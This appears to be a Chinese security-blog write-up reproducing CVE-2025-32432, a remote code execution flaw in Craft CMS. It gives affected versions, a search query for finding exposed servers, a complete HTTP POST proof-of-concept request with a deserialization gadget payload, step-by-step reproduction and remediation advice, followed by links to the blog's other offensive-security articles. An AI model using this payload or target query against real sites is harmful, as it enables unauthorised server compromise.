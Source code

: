 #  漏洞复现篇 | CraftCMS 任意命令执行漏洞，CVE-2025-32432   
原创 零日安全实验室  零日安全实验室   2025-05-04 22:00  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTml8aJelrBMBJMAibDDIyIM5ARmnPMmjAmKxRAq0NNzKXPjI7q0lP7uDbg/640?wx_fmt=png&from=appmsg "")  
  
  
  
免责声明！  
  
本  
公众号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法。  
  
  
  
  
大 纲  
  
> 0x01 漏洞概述  
> 0x02 影响范围  
> 0x03 资产测绘  
> 0x04 漏洞利用及复现过程  
> 0x05 修复方案  
  
  
0x01 漏洞概述  
  
Craft CMS  
是一个开源的内容管理系统，它专注于用户友好的内容创建过程，逻辑清晰明了，是一个高度自由，高度自定义设计的平台吗，可以用来创建个人或企业网站也可以搭建企业级电子商务系统。  
  
0x02 影响范围  
  
3.0.0-RC1 <= Craft <= 3.9.15  
  
4.0.0-RC1 <=   
Craft <= 4.14.15  
  
5.0.0-RC1 <=   
Craft <= 5.6.17  
  
0x03 资产测绘  
```
header="X-Powered-By: Craft CMS" || banner="X-Powered-By: Craft CMS"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTml2u477hVQQr7ibXsDqlVGMz9C6DFNUQfVibHtd8EmqJROlyz5EGAwr5yw/640?wx_fmt=png&from=appmsg "")  
  
0x04 漏洞利用及复现过程  
  
触发的POC：  
```
POST /index.php?p=admin/actions/assets/generate-transform HTTP/1.1
Host: xxx.xxx.xxx.xxx
Cookie: CRAFT_CSRF_TOKEN=daf6b64e2d0beca2810a1f2ba142ace3635bff363e262e10ebaa4e82b0fe9a4aa%3A2%3A%7Bi%3A0%3Bs%3A16%3A%22CRAFT_CSRF_TOKEN%22%3Bi%3A1%3Bs%3A40%3A%22jvyEd4GLStsd2iruHCZ_pgYXRkKWNLFc3_aWQX1q%22%3B%7D
Content-Type: application/json
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Csrf-Token: bzFvT_mLmqlXm01ioxrWVQ3upJAehcZVaB5aNy52BVwY0mEZ_owjMwVHFgqdv93lBO8-BpFzpCBFrf7PbuKfDTp1EWBgOkM_K40ATq_UEkI=
Content-Length: 217

{"assetId":11,"handle":{"width":123,"height":123,"as session":{"class":"craft\\behaviors\\FieldLayoutBehavior","__class":"GuzzleHttp\\Psr7\\FnStream","__construct()":[[]],"_fn_close":"phpinfo"}},"9qsccmw8lve":"="}

```  
  
复现过程：  
  
S1：抓取xxx.xxx.xxx.xxx/  
index.php?p=admin/actions/assets/generate-transform数据包：  
  
S2：获取  
CRAFT_CSRF_TOKEN：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTmljkF1ynNluhddpz6icMuSVUCpbCR4Jic1B6rnmkE3nvrzfm8cWMQb1jWQ/640?wx_fmt=png&from=appmsg "")  
  
S3：获取  
X-Csrf-Token：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTmluiaHibiaGO7VSRBAswv8FvArJDB2tumV32NhmicoEWYBNqZKQL23ddub9g/640?wx_fmt=png&from=appmsg "")  
  
S4：构造payload：  
```
{"assetId":11,"handle":{"width":123,"height":123,"as session":{"class":"craft\\behaviors\\FieldLayoutBehavior","__class":"GuzzleHttp\\Psr7\\FnStream","__construct()":[[]],"_fn_close":"phpinfo"}},"9qsccmw8lve":"="}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTmltroLcCjARibuUxDIib4AC65DNSicI9Qx4dxialS5Na83oWQ6cfaKnBDZzw/640?wx_fmt=png&from=appmsg "")  
  
S5：复现成功：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTmlZ9ib7SSHicicnrY34Y7qze6HumibJicTVo6xjKmLdCJEQRCjmS4Xq3XKibXQ/640?wx_fmt=png&from=appmsg "")  
  
0x05 修复建议  
- 重置安全密钥（  
php craft setup/security-key  
）。  
  
- 轮换数据库凭证及  
API  
密钥，强制所有用户修改密码。  
  
- 在防火墙拦截包含  
“__class”  
的  
POST  
请求。  
  
- 安装官方临时补丁库  
“Craft CMS Security Patches”  
。  
  
- 立即升级，  
安装官方安全版本（  
3.9.15  
、  
4.14.15  
、  
5.6.17  
）。  
  
  
CVE-2025-32432  
是  
2025  
年迄今影响最广泛的  
CMS  
漏洞之一，其低攻击门槛与高危害性已引发全球安全团队高度警戒。  
Craft CMS  
用户需立即行动，避免成为下一批受害者。  
  
  
  
关注并私信进社群获取POC！  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTml70kHQicrAkdeEeOo6LQro6ydGO2ibJSPzlUCtjKAEYKich7vPQZc1ia3eA/640?wx_fmt=gif&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MicZ6Q9ZW0xCpyzFs4uTpdcvqrSwzJTmlnhhcSCWmu98D77GoUajEZT5xuACUs9n6RLoMDIrafbDM1yDU5wO4Ig/640?wx_fmt=gif&from=appmsg "")  
  
没看够~？欢迎关注！  
  
  
往期精彩推荐  
  
[工具篇 | 超绝！漏洞盒子一键自动提交脚本，效率飞升秘籍](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485157&idx=1&sn=65599d4007c0db1a60a54ca2689c1fbe&chksm=c4cd7d44f3baf4522b8185714ac3698e227f08b316301a557f7a4fda474117a6c3a5ba52a6ae&scene=21#wechat_redirect)  
  
  
[内网篇 |【干货】探秘高版本系统：密码抓取技术与方法解析，建议收藏！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485131&idx=1&sn=d7167f5bc26a5a0814f6338117181bcb&chksm=c4cd7d6af3baf47c12703bf32349f2ca4e72cc6751363ccd06022ef236f5f843aff19d659f52&scene=21#wechat_redirect)  
  
  
[面试篇 | 网安春招大厂面试题精选：看这一篇就够了，必看！！！（2）](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485023&idx=1&sn=a608bd16bd38eef31e0aff94b1247a7c&chksm=c4cd7dfef3baf4e808a0deac3931797800f0f53cfb76979c43f6bb5b0fc11418aeee691c0491&scene=21#wechat_redirect)  
  
  
[工具篇 | 热点！AI赋能网安技术：一文解锁全新操作方式](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247485005&idx=1&sn=424cde7ac0c6726f6ccba9b48efe33ba&chksm=c4cd7decf3baf4faa3a8fa31cf76bde4b2f554fb6366bbb0e5ae8e0fe6d6cc8ecea2d01a53a2&scene=21#wechat_redirect)  
  
  
[面试篇 | 网安春招大厂面试题精选：看这一篇就够了，必看！！！（1）](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484973&idx=1&sn=1031ca1a9e1d3e4a932f6bdc08097a0d&chksm=c4cd7d8cf3baf49a7d7008920f506be79291ca872819f5fdba9aaf9abb3ef02df8301d232109&scene=21#wechat_redirect)  
  
  
[工具篇 | MuMu模拟器安装证书+burpsuite抓包，APP&小程序渗透必备！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484601&idx=1&sn=93a52940fb9cda679eb4bf39e136d369&chksm=c4cd7f18f3baf60ec1faaf6cd5dd0c1144a2b0bda4bd5f88cf1f70ab5efdd2d190df62f7a450&scene=21#wechat_redirect)  
  
  
[内网篇 | 巧妙使用CDN隐藏CobaltStrike特征，红队必备！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484564&idx=1&sn=77f57d3bbac771e588a78da0e62d3349&chksm=c4cd7f35f3baf62348bbcf96a634597e58b00d6d6ca4c193d04b61a9c8d6fd0a68498d038269&scene=21#wechat_redirect)  
  
  
[内网篇 | 干货！一文秒懂Kerberos认证：全面剖析与实践指南](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484502&idx=1&sn=eaaddf2829d976f510d578bd585ee122&chksm=c4cd7ff7f3baf6e101a5f280f8f1feb563d6b49d3578d7fa56a3b25d782e140e4ce705df24bc&scene=21#wechat_redirect)  
  
  
[内网篇 | CobaltStrike：深入探索本地信息收集技巧，干货！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484422&idx=1&sn=fac04db654c085eb9289b411faf82a84&chksm=c4cd7fa7f3baf6b19558ac1e94511d9b589be8d06b7c54ff6edbbae3baa78bb1d061b8f34320&scene=21#wechat_redirect)  
  
  
[漏洞复现篇 | Vite任意文件读取漏洞：CVE-2025-30208，最新！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484366&idx=1&sn=8f74d77f7f7357fe1ca951471fb0a03c&chksm=c4cd786ff3baf179d64dfb98aaf9a5a992572a1c1f467ce207f01f5c21aa9e3e2a7699c2d390&scene=21#wechat_redirect)  
  
  
[Web篇 |【全网最详细】Apache CC反序列化漏洞：CC1调用链POC构造过程，干货！！！（上）](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484306&idx=1&sn=50e69fcef563f3873d7be4b116ef6fff&chksm=c4cd7833f3baf1258c21e12726d7390e2bdb8fdc3b60caa118c87cf85a2337a0581f7f198e0d&scene=21#wechat_redirect)  
  
  
[工具篇 | 应急响应工具包，2025Hvv必备神器！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484242&idx=1&sn=654801a09da69a2b6467ad74066f7a23&chksm=c4cd78f3f3baf1e580d2047ae87565b189e2296091181310dd071d04203986d110eb930db3b8&scene=21#wechat_redirect)  
  
  
[Web篇 | 一文掌握Apache Commons Collections反序列化漏洞，速看！！！（上）](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484224&idx=1&sn=a9e9fa2b8726f6e7d464db9e4fb770d5&chksm=c4cd78e1f3baf1f7c99c20481ea73257d84255f0a722ee75d3b6bb46ebd94f4ebaad114add2c&scene=21#wechat_redirect)  
  
  
[Web篇 | 一文掌握Java反序列化漏洞，干货！（上）](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484143&idx=1&sn=4e41463a1d67c52d98086cdb7e669d87&chksm=c4cd794ef3baf058a19b88b73b7bbbb59647afcdd1dce5e30ef162c504b94980e3f57e969291&scene=21#wechat_redirect)  
  
  
[工具篇 | 把deepseek塞进微信：实现自动回复消息！王炸！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484067&idx=1&sn=f9ee4df873cfb533362d8b34c05e029a&chksm=c4cd7902f3baf014a045413eb15f889206053230ce22abe452fe2ed35f8cf08dc36d07dec057&scene=21#wechat_redirect)  
  
  
[内网篇 | 【送给小白的】内网信息收集：端口扫描详解，干货！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484038&idx=1&sn=3b827ae51c9d5434286f988e73fd1cc6&chksm=c4cd7927f3baf031ee942a99524d4b85c45275f9b5db99002f034517f88c96e5a4c7a39b1cec&scene=21#wechat_redirect)  
  
  
[漏洞复现篇 | CVE-2025-24813 Tomcat，最新RCE漏洞，速看！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247484013&idx=1&sn=eeaeb65063f273191256799df00f72e7&chksm=c4cd79ccf3baf0da1ec8b93ff08a2bd94507517f99acbc26665e8c3e5431218ea9deab036d0c&scene=21#wechat_redirect)  
  
  
[内网篇 | 史上最全的内网IP扫描攻略，干货！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483973&idx=1&sn=2695c6362347532c1e7d0661083aed06&chksm=c4cd79e4f3baf0f2236b0861775c8fbcaca94337628e5a2a47a008db8dd053796f98dbee12ed&scene=21#wechat_redirect)  
  
  
[内网篇 | 干货！深入解析NTLM协议：挑战-响应认证机制揭秘，红队必备！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483943&idx=1&sn=5c1ae9d03e36744dc30b6953dbb99f71&chksm=c4cd7986f3baf0909a70df8b2959ed6d54e9e6bc21cf721a41d0d1f3f526dbec3d10f949916b&scene=21#wechat_redirect)  
  
  
[SRC篇 | 今天你挖洞了吗？Webpack未授权访问漏洞，实战！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483870&idx=1&sn=5ac2a2d40a96f8741e79af9f0fe90655&chksm=c4cd7a7ff3baf369d9146ba745e86eb47e88a43b718db03778e976ffd7a353599e79c7580c76&scene=21#wechat_redirect)  
  
  
[Web篇 | 最强sqlmap联动burpsuite+WAF绕过姿势，Hvv面试必备！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483898&idx=1&sn=ce2f4bed8142958c1ed451fb59afac8a&chksm=c4cd7a5bf3baf34d58a6b334893de1c2d274820e2d40e7c057f182bad558bc3cba2e019d9916&scene=21#wechat_redirect)  
  
  
[红队必备：一文教你掌握pwd抓取技术，让你秒变高手！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483834&idx=1&sn=6447704059712e67ed4923b95462b336&chksm=c4cd7a1bf3baf30d868fac4ba6ae0ebe43e54ec64133d98fe63afe2a3635f01fdad091aaa994&scene=21#wechat_redirect)  
  
  
[SRC篇 | 如此简单的逻辑漏洞，速看！！！](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483764&idx=1&sn=91a19aa1c243a20a06f4a25279577dac&chksm=c4cd7ad5f3baf3c3601dcb326f622615ad9ab20f6c936adb9320d650efa0314dc667eace3dd2&scene=21#wechat_redirect)  
  
  
[内网篇 | 干货！Windows系统本地认证](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483744&idx=1&sn=bac6aa7f4ceff25a48dd82af551f1069&chksm=c4cd7ac1f3baf3d702c046875602cc14873d0f9b4942c9a0359d5eb70a490ecc884026cb275c&scene=21#wechat_redirect)  
  
  
[漏洞复现篇 | Ecshop SQL注入引起的任意代码执行漏洞](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483716&idx=1&sn=90b4cab022a7b1f8dfcbfc4e07223248&chksm=c4cd7ae5f3baf3f31f4007a5623dc524378cdd39a05f655e617de5f4005abe5e8bd70fda3f8d&scene=21#wechat_redirect)  
  
  
[Web篇 | 技巧！布尔盲注-利用burpsuite实现半自动化](http://mp.weixin.qq.com/s?__biz=Mzk3NTQwMDY1NA==&mid=2247483687&idx=1&sn=e5c92d434ba5aaa1af2b4a295d742126&chksm=c4cd7a86f3baf390d2b385ab0475a70ef0f56d0f4538d17a186a0d06af14d0c2403157649931&scene=21#wechat_redirect)  
  
  
